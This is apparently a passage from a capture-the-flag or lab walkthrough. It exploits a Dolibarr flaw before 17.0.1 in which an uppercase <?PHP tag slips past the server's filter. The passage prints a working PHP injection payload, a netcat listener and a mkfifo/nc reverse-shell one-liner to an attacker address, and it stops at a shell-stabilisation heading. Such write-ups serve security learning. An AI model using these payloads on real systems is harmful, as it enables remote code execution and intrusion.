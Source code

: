             <span class="font-semibold text-red-600 dark:text-red-400">Description:</span><br>
            In Dolibarr versions &lt; 17.0.1, the server-side filter only handles the lowercase <code>&lt;?php</code> tag. An authenticated user can bypass this protection by using <code>&lt;?PHP</code> (uppercase) to inject and execute PHP code on the server.
        </div>
    </div>
</div>

### Proof of Concept

1. **Navigation:** Website → Create New Website
2. **Create a web page** in the Dolibarr editor
3. **Edit HTML source** of the page
4. **Inject PHP payload:**

```php
<?PHP echo system("whoami"); ?>
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Result:</strong> Code executes with <code class="bg-green-200 dark:bg-green-800 px-2 py-1 rounded">www-data</code> user privileges
    </p>
</div>

### Obtaining a Reverse Shell

**Configuring the listener on the attacking machine:**

```bash
nc -lnvp 4455
```

**Injecting the reverse shell payload in the Dolibarr editor:**

```php
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.41 4455 >/tmp/f"); ?>
```

**Triggering the payload:** Access the created page via the browser

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Shell obtained as www-data!
    </p>
</div>

## 🔧 Phase 5 — Shell Stabilization and Enumeration

### Shell Improvement

